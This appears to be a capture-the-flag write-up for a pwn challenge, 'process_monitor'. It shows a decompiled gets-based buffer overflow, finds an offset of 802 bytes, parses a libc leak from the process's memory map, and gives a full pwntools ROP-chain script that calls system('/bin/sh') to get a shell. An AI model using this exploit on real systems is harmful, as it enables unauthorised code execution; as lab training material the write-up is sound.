 Author: nordbo

Flag: `EPT{overfl0w_in_th3_m0n1t0r}`

## Solve

The binary gives us 3 options. 
```sh
$ nc io.ept.gg 30001

Menu:
1. List all running processes
2. Get details for a given process
3. Exit
Enter your choice:
```


By listing all running processes we get this
```sh
Enter your choice: 1
USER       PID   COMMAND
ept        1     /bin/sh
ept        7     ./ynetd
ept        206   sh
ept        207   ./process_monitor
```

And by listing details for the `./process_monitor` process we get this
![](img1.png)
This is the entire virtual memory map of the process, and we can use this info to call functions in libc.

#### Reversing the binary
The `show_process_detail` function is vulnerable to a buffer overflow because of the use of `gets`
```c
void show_process_detail(void)

{
  int iVar1;
  char *pcVar2;
  char local_322 [10];
  char local_318 [512];
  char local_118 [256];
  FILE *local_18;
  uint local_c;
  
  printf("Enter the PID of the process: ");
  gets(local_322);
  local_c = atoi(local_322);
  snprintf(local_118,0x100,"/proc/%d/status",(ulong)local_c);
  local_18 = fopen(local_118,"r");
  if (local_18 == (FILE *)0x0) {
    perror("Could not fetch details");
  }
[...]
```


#### Finding offsett
By sending in a long enough pattern we get a segfault:
![](img2.png)

Then we find the offsett in pwndbg:
![](img3.png)
```sh
$ pwn cyclic -l 0x6163696161626961
802
```


#### Parsing libc
The next step was to parse the libc leak into the pwntools script. This took way to much time for me, and the function I created was pretty bad. I basically just called `io.recvline` until i got to the correct line where the libc base was located. I created one for local and one for remote. 
```python
def leaklibc():
    io.recvuntil(b"Enter your choice: ")
    io.sendline(b"1")

    if args.LOCAL:
        processes = b""
        for i in range(98):
            processes += io.recvline()
        find = re.findall(b"\n.*process_monitor.*\n", processes)[0]
        pid = find[len("\nkali       "):len("\nkali       ")+5]
        io.recvuntil(b"Enter your choice: ")
        io.sendline(b"2")
        io.recvuntil(b"Enter the PID of the process: ")
        io.sendline(pid)
        for i in range(16):
            io.recvline()
        
        return int(io.recvline()[:len("7fef1fb60000")], 16)

    else:
        processes = b""
        processes = io.recvline()
        processes += io.recvline()
        processes += io.recvline()
        processes += io.recvline()
        processes += io.recvline()
        processes += io.recvline()
        processes += io.recvline()

        
        pid = processes.split(b"\n")[4][len("ept        "):len("ept        ")+4]
        io.recvuntil(b"Enter your choice: ")
        io.sendline(b"2")
        io.recvuntil(b"Enter the PID of the process: ")
        io.sendline(pid)
        for i in range(16):
            io.recvline()
        return int(io.recvline()[:len("7fef1fb60000")], 16)
```


#### ROP-chain
From there on the solve was pretty standard. I created a ROP-chain with `pop rdi;ret`  `/bin/sh` `ret` and `system`
```python
libc = ELF("/home/kali/ctf/libc-database/db/libc6_2.35-0ubuntu3.4_amd64.so")
rop = ROP(libc)
io = start()

libcaddr = leaklibc()
log.info("Libc leak: " + hex(libcaddr))

libc.address = libcaddr
io.recvuntil(b"Enter your choice: ")
io.sendline(b"2")
io.recvuntil(b"Enter the PID of the process: ")

payload = b"A"*802
payload += p64(libcaddr + rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b"/bin/sh")))
payload += p64(libcaddr + rop.find_gadget(['ret'])[0])
payload += p64(libc.sym.system)
io.sendline(payload)

io.interactive()
```

By running this we get a shell!
![](img4.png)


